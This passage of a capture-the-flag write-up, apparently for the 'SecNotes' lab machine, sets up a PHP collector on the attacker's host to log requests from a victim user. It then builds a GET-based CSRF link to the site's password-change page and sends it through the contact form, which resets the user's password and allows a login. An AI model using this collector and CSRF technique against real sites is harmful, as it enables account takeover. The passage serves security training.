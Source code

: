 Make PHP script:

```php
<?php
  # save this at /var/www/html/finger.php
  $data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
  $data .= file_get_contents('php://input');
  $data .= "---------------------------------\n\n";
  file_put_contents('/var/www/finger/finger.txt',
                    print_r($data, true),
                    FILE_APPEND | LOCK_EX);
?>
```

Enable fingerprint:

```bash
sudo mkdir /var/www/finger
sudo touch /var/www/finger/finger.txt
sudo chown -R www-data:www-data /var/www/finger/
sudo systemctl restart apache2
```

Then submit a request to `tyler` with the following URL:

```
http://10.10.14.25/finger.html
```

However, looking at `/var/www/finger/finger.txt` shows that the JavaScript did not execute:

```bash
watch -n 0.5 cat /var/www/finger/finger.txt
```

Maybe the user is not using a valid browser? It seems like only an HTTP get request can be made... Looking back at the HTTP POST for `change_pass.php`, maybe it can be made into an HTTP GET request? Testing out the following URL results in a valid password change!

```
http://10.10.10.97/change_pass.php?password=bubba123&confirm_password=bubba123&submit=submit
```

Send the above link to `tyler` through `http://10.10.10.97/contact.php` and then login with `tyler/bubba123`:

![web6](./secnotes/web6.png)
